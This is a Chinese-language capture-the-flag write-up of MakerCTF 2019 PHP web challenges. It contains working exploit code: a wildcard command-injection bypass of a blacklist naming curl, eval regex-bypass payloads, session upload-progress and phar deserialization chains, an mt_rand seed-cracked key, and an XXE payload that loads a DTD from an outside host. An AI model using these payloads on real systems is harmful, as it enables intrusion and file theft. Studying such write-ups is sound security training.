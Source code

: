 ```yaml
---
title: MakerCTF 2019 部分Web题目 Writeup
tags: 
    - Writeup
    - CTF
date: 2019/4/15
---
```


## Pineapple

通过扫描可以发现存在git源码泄露，进一步发现index.php中存在反序列化点:

```php
$info = @$_GET['info'];
$lyric = @$_GET['lyric']; // php://input
if(isset($lyric)&&(@file_get_contents($lyric,'r')==="I want to eat pineapple")){
    unserialize($info);
}
```

及工具类Blog:

```php
class Blog{
    public $file="Music";
    public function __destruct(){
        $blacklist = ["\"", "ls", "curl", "-"];
        // PATH中存在的文件名基本都ban了

        foreach ($blacklist as $key => $value) {
            if(stripos($this->file,$value)){
                die("Attack!");
            }
         }
        system("php ./templates/$this->file.php");
    }
}
```

且提示了flag存在于templates/Secrets.php文件中  
显而易见，Blog类system函数的调用中存在命令拼接，而shell中的通配符可以帮助我们绕过waf  
所以令 `Blog->file = ";/???/???\t./templates/Secrets";` 即可

## Regex and PHP are the best

```php
<?php
if(';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['code'])) {
    eval($_GET['code']);
} else {
    show_source(__FILE__);
}
```

网上能搜到原题，此处总结一下各种可能能利用的函数

1. `getallheaders()` (在5.5.7之前只存在于apache php模块中)
1. `get_defined_vars()`
1. `session_id(session_start())`

还存在一个比较刁钻的payload:  
 `readfile(next(array_reverse(scandir(dirname(chdir(dirname(getcwd())))))))`

## can u see the flag

首先通过extract变量覆盖读phpinfo：`func=extract&func_0=phpinfo`
可以发现php版本为7.0.33

回到变量覆盖，发现实际上无法直接进行反序列化，遂回到phpinfo继续寻找突破口

> 其实此时可以通过fuzz找出可以接收一个数组作为参数的函数发现session反序列化

```ini
session.serialize_handler = php_serialize
session.upload_progress.enabled = On
session.upload_progress.cleanup = Off
```

可以发现上述配置项允许我们通过session注入进行反序列化
再次回到变量覆盖，将`func_0`覆盖为`session_start`。  
此时，要进行反序列化还需要更改`serialize_handler`，观察php文档发现session_start可以接受一个`$opts`参数更改session相关配置。之后就是烦人的套娃了

所以第一关的exploit如下：

```python
from phpserialize import serialize
from requests import session

ses = session()
host = 1
class maker_r:
    class maker_e:
        class maker_w:
            class maker_q:
                class get_flag:
                    get1 = 'get_flag::flag1'
                    protected_get2 = '\\f1a9'
                q1 = get_flag()
                private_q2 = None
            w1 = maker_q()
            private_w2 = None
        e1 = maker_w()
        private_e2 = None
    r1 = None
    r2 = maker_e()

payload = serialize(maker_r())

ses.get(host + '/welcome.php', params={
    'func': 'extract', 'func_0': 'session_start'
})

ses.post(host + '/welcome.php', params={
    'func': 'extract', 'func_0': 'session_start'
}, files={'a': 'b'}, data={
    'PHP_SESSION_UPLOAD_PROGRESS': '|' + payload
})
# 此时session文件中的内容为：https://paste.ubuntu.com/p/QBsH3gyx8q/，挺有趣的

ret = ses.post(host + '/welcome.php', params={
    'func': 'extract',
    'func_0': 'session_start'
}, data={
    'serialize_handler': 'php',
    's': 'something'
}).text
print(ret)
```

根据第一关的答案，我们能拿到第二关的源码，并且知道了第二关flag的位置。在classes.php中我们发现有两个key，其中admin_key没有给出，而出题人提示两个key的生成方式如下：

```php
class Secret {
    public $maker_key;
    public $admin_key;

    function __construct() {
        $this->admin_key = $this->gen_secret();
        $this->maker_key = $this->gen_secret(10); // )l)h3X3Gye
    }
    function gen_secret($len = 8) {
        $chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!@#$%^&*()';
        $passwd = '';
        for ($i = 0; $i < $len; $i++ )
            $passwd .= substr($chars, mt_rand(0, strlen($chars) - 1), 1);
        return $passwd;
    }
}
```

`mt_rand`随机数生成器非密码学安全  
可以利用工具（比如php_mt_seed）爆破出seed，得到`admin_key = "!XPiScRy"`  
观察两个key的区别，我们能够发现maker_key只能将已经存在的`maker.gif`移动到`/var/www/data`目录下，且无法获得生成的文件名，而admin_key不仅可以访问/写入任意文件**内容**，还能获得生成的文件名  
所以这个文件名有什么用呢？不能直接访问（不在web目录下），而我们能控制的能访问到本地文件的只有那个`file_get_contents`，这时我们就能联想到phar反序列化了  

> 有一个需要注意的点是file_get_contents的url第一个字符不能为p，此时我们可以通过套娃套一个stream即可，比如压缩流

所以现在要反序列化什么类呢？如果只是要反序列化php自带的类的话那用第一关的反序列化点就行了，没必要再来一个，所以我们的目标缩小到classes中有的类。  
这时我们能发现Move类能够调用任意类的任意函数，参数都没有任何限制，极大地扩展了攻击面。后面就随便搞了。

比如可以利用XXE读flag

```php
<?php
class Move {
    function __construct() {
        $d = <<<str
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE foo [ <!ENTITY % pe SYSTEM "https://files.frankli.site/xxe/xxe.dtd"> %pe; %param1; ]>
<foo></foo>
&external;
str;
        $this->n = array($d, LIBXML_NOENT);
        $this->m = "SimpleXMLElement";
        $this->k = "!XPiScRy";
    }
}

$x = new Phar("payload.phar.gif");
$x->startBuffering();
$x->setStub("GIF89a <?php __HALT_COMPILER();?>");
$x->setMetadata(new Move());
$x->addFromString('a', 'b');
$x->stopBuffering();
```

exploit:

```python
import requests
import base64

with open('payload.phar.gif', 'rb') as f:
    payload = base64.b64encode(f.read()).decode()

def access(n):
    return requests.post('http://localhost/maker.php', params={
        'who': 'maker', 'do': 'move', 'url': n
    }, data={'key': '!XPiScRy'})

ret1 = access('data:text/plain;base64,' + payload).text
filename = __import__('re').findall('[a-zA-Z0-9]*.gif', ret1)[1]
print(access('compress.zlib://phar:///var/www/maker/' + filename).text)
```
